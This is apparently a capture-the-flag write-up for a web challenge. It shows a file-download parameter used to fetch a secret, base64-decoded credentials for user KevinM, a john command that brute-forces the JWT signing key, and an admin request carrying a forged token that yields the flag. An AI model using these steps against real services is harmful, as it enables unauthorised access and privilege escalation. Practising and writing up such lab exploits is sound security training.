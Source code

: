 # Solution

Grab the secret at `/download?filename=secret`

Decode the multi-base64 strings in it and obtain the creds for `KevinM`

```
POST /login HTTP/1.1


username=KevinM&password=%5E32i6%3BxqOFYkqg%24l%3Dwq%5E8-%3FjO%5ESIpT
```

`jwt` token created, bruteforce the key using the provided `secrets.txt` file

```
john jwt.txt --wordlist=secrets.txt --format=HMAC-SHA256 
```

```
GET /admin HTTP/1.1
Host: 188.245.212.74:10037
Referer: http://188.245.212.74:10037/login
Cookie: connect.sid=s%3AqkgniFDpwODBvegOBjGQOYONDJSF8nP_.UBvyrwUAWyLhoOrF75C2mubG4H9mMRVLR%2Bi0zmTVFMI; token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IktldmluTSIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc0MjYzNDM1NiwiZXhwIjoxNzQyNjM3OTU2fQ.GPdFBwU0ukjmF-fQMSPXJVHJQFhsS6QHaj1yKfGOSK0
```

Flag: `ping{Spr1n7_T3ch_@dm1n_fl@G}`

Solved by: yappare